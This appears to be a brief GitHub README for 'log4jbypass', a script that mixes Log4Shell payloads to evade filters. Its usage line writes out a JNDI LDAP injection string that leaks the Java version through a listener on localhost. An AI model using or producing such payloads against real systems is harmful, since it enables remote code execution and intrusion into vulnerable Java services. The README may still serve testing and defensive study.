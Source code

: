 # log4jbypass
log4j payload mix

## useage
python log4j_bypass.py '${jndi:ldap://127.0.0.1:1389/${sys:java.version}}'
![image](https://user-images.githubusercontent.com/38160485/145961939-0d8f7c3b-485f-48e4-8d46-7fe84d02a1f4.png)



